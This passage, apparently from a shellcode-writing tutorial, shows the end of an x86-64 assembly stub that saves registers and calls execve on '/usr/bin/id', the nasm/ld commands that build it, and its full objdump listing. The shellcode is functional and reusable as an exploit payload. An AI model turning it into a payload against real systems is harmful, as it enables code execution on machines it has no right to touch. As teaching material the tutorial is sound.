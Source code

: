 >
>align 8
>	cmd db '/usr/bin/id', 0
> ```

Let's compile it with `nasm -f elf64 -o shellcode.o shellcode.asm; ld -o shellcode shellcode.o` and dump its content with `objdump` . Here is the result:

> ```sh
>$ objdump -d -s -j .text shellcode
>
>shellcode:     file format elf64-x86-64
>
>Contents of section .text:
>	400080 52575648 8d3d1e00 00006a00 574889e6  RWVH.=....j.WH..
>	400090 ba000000 00b83b00 00000f05 5e5e5e5f  ......;.....^^^_
>	4000a0 5ac39090 90909090 2f757372 2f62696e  Z......./usr/bin
>	4000b0 2f696400                             /id.            
>
>Disassembly of section .text:
>
>0000000000400080 <_start>:
>	400080:	52                   	push   %rdx
>	400081:	57                   	push   %rdi
>	400082:	56                   	push   %rsi
>	400083:	48 8d 3d 1e 00 00 00 	lea    0x1e(%rip),%rdi        # 4000a8 <cmd>
>	40008a:	6a 00                	pushq  $0x0
>	40008c:	57                   	push   %rdi
>	40008d:	48 89 e6             	mov    %rsp,%rsi
>	400090:	ba 00 00 00 00       	mov    $0x0,%edx
>	400095:	b8 3b 00 00 00       	mov    $0x3b,%eax
>	40009a:	0f 05                	syscall
>	40009c:	5e                   	pop    %rsi
>	40009d:	5e                   	pop    %rsi
>	40009e:	5e                   	pop    %rsi
>	40009f:	5f                   	pop    %rdi
>	4000a0:	5a                   	pop    %rdx
>	4000a1:	c3                   	retq   
>	4000a2:	90                   	nop
>	4000a3:	90                   	nop
>	4000a4:	90                   	nop
>	4000a5:	90                   	nop
>	4000a6:	90                   	nop
>	4000a7:	90                   	nop
>
>00000000004000a8 <cmd>:
>	4000a8:	2f                   	(bad)  
>	4000a9:	75 73                	jne    40011e <cmd+0x76>
>	4000ab:	72 2f                	jb     4000dc <cmd+0x34>
>	4000ad:	62                   	(bad)  
>	4000ae:	69                   	.byte 0x69
>	4000af:	6e                   	outsb  %ds:(%rsi),(%dx)
>	4000b0:	2f                   	(bad)  
>	4000b1:	69                   	.byte 0x69
>	4000b2:	64                   	fs
>	...
> ```
